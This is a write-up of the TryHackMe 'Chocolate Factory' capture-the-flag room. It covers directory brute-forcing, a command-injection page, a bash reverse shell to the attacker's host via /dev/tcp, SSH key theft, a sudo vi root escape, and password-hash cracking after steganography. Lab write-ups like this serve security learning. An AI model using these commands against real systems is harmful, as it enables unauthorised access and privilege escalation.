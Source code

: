 
## Description
This <a href="https://tryhackme.com/room/chocolatefactory">challenge</a> is provided by <a href="https://tryhackme.com">https://tryhackme.com</a>
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119040663-43719300-b9e8-11eb-93b9-9084d21a8b85.png"/>
 <ul>
<li><image src="https://user-images.githubusercontent.com/78603128/119169950-2fd03600-ba95-11eb-85d3-5ccf91320077.png"/></li>
<li><image src="https://user-images.githubusercontent.com/78603128/119169974-352d8080-ba95-11eb-80b4-15fb7ded910d.png"/></li>
<li><image src="https://user-images.githubusercontent.com/78603128/119170005-3ced2500-ba95-11eb-9a42-657073094293.png"/></li>
<li><image src="https://user-images.githubusercontent.com/78603128/119170013-41194280-ba95-11eb-8361-04b5553a7d0d.png"/></li>
</ul>
</p>
 
## Hands on 1

First , we slap the ip into our browser to check if port 80(common web server port) is up and yes it is !
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119142345-fa1d5400-ba78-11eb-97a9-5e0b27c4618e.png"/>
</p>

look like a credential is required

lets try <a href="https://tools.kali.org/web-applications/gobuster">gobuster(CLI)/dirbuster(GUI)</a> to brute force the web directory for hidden files

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119142807-7879f600-ba79-11eb-8cc8-0236aca6441f.png"/>
</p>



Note : <br/>
<ul>
<li>dir specify brute force the directory </li>
<li>-u specify the web browser url</li>
<li>-w specify the dictionary path for the attack</li>
<li>-t specify how many thread to be used for the attack</li> 
<li>-o specify output file name</li>
</ul>

and we found the hidden directory named :

**"home.php"**

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119143134-d8709c80-ba79-11eb-85fb-d91fe7fb960f.png"/>
</p>

guess what ? who need credentials when you can access the page without one ?

**"validate.php"** , look like input validation goes here

<p align="center">
 
<image src="https://user-images.githubusercontent.com/78603128/119142989-b37c2980-ba79-11eb-82ae-a0ab52a03f25.png"/>

 </p>
 
Moving on , we can check if the machine is linux by using  `uname -a` command

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119144800-98121e00-ba7b-11eb-87be-10057beb2d04.png"/>
</p>

and yess , now slap reverse shell command into the input 

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119146838-9cd7d180-ba7d-11eb-8f00-ffd68cb68676.png"/>
</p>
 
```
bash -c 'exec bash -i &>/dev/tcp/$YOUR IP/$PORT <&1'
```
 


remember to start a listener on the port you input
<br/>
<br/>

And within few seconds , we will get a reverse shell and able to run as `www-data` !

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119147026-cabd1600-ba7d-11eb-88cc-a69eadb0ac62.png"/>
</p>

now we search for the key , `key_rey_key` seems sus and by trying strings command we found the key

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119148594-38b60d00-ba7f-11eb-8a24-17a264bc10d0.png"/>
</p>

and we are lucky to found the user credentials in plain text inside the `validate.php` code
<br/>

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119148927-92b6d280-ba7f-11eb-8a86-b8d60f193eff.png"/>
</p>

switch user to charlie and we got the flag but .. you cant switch user here..
<br/>

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119149250-ede8c500-ba7f-11eb-94b8-21823441721b.png"/>
</p>

looking around charlie directory , we found RSA private and public key to login via SSH !
<br/>

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119149549-36a07e00-ba80-11eb-9cd8-c3f5e9b77a83.png"/>
</p>
  
Copy content of **teleport** and paste into your local empty file , in my case i saved it into `rsa_key` file
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119170350-b4bb4f80-ba95-11eb-8961-b6b012f61dca.png"/>
</p>

Remember to chmod 700 on the saved file 
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119170563-006df900-ba96-11eb-9a69-0ce6ca76b099.png"/>
</p>

else you get error like this
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119172491-9d319600-ba98-11eb-842f-6a0191b2e1e0.png"/>
</p>

After successfully login , you are now `charlie`
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119172598-bd615500-ba98-11eb-9ae0-21a7e14e2af2.png"/>
 </p>
 
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119172772-ea156c80-ba98-11eb-9d69-1bde7535386f.png"/>

</p>
And we got the user flag !
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119173016-352f7f80-ba99-11eb-8cdd-19c7f06259af.png"/>
 </p>
 
 now the root flag ! 
 type  `sudo -l` to check sudo permission for charlie
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119173732-3b722b80-ba9a-11eb-8dca-d8db75cd78e7.png"/>
</p>

by checking at <a href="https://gtfobins.github.io">GTFO bins</a> we found that vi can be exploited
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119173881-6fe5e780-ba9a-11eb-9760-a12f4680167b.png"/>
 
 ```
 sudo vi -c ':!/bin/sh' /dev/null
 ```
</p>

We are now ROOT YEAH BOI and we found one python file (probably flag)
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119174264-f1d61080-ba9a-11eb-8277-ab7fb5d64380.png"/>
</p>

 Enter the key we found earlier and we got the root flag !
  <p align="center">
 <image src="https://user-images.githubusercontent.com/78603128/119174570-51ccb700-ba9b-11eb-94de-4e24d661a787.png"/>
 </p>
   <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119174584-56916b00-ba9b-11eb-83ee-b3ab5c78817f.png"/>
 </p>

## Hands on 2
Alternatively , to get charlie's password to log into the web browser we can use nmap/rustsan to scan for network open ports revealed the `` ftp service `` exists and contain one image (**gum_room.jpg**)
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119174953-ce5f9580-ba9b-11eb-96fa-28042a4b4c6c.png"/>
</p>

we can login as ``Anonymous`` and get the image file
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119175296-3ada9480-ba9c-11eb-973a-9963a924335d.png"/>
</p>

 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119175751-d0762400-ba9c-11eb-8734-d6c744484b69.png"/>
</p>

look like ordinary picture but there can be something hidden inside pictures >:D (**Steganography**)
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119176018-26e36280-ba9d-11eb-9392-fbed6f605106.png"/>
</p>

Using ``steghide`` we found a text file **(b64.txt)** with base 64 string 
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119176294-7f1a6480-ba9d-11eb-97b9-b88e506e0cef.png"/>
</p>

Decrypt it and we got all user leaked ``etc/passwd``
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119176446-b557e400-ba9d-11eb-8263-1c8284cc46ac.png"/>
</p>
including charlie's
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119176620-e801dc80-ba9d-11eb-9a52-35f06cef4585.png"/>
</p>

paste the hash into a empty file (in my case : charlieCreds) and put it at ``john the ripper`` and let john do the job !
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119176966-46c75600-ba9e-11eb-9f91-42445e2e2123.png"/>
</p>

then paste the pass and login charlie on the website
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119177393-da008b80-ba9e-11eb-9567-da6126fd8d24.png"/>
</p>












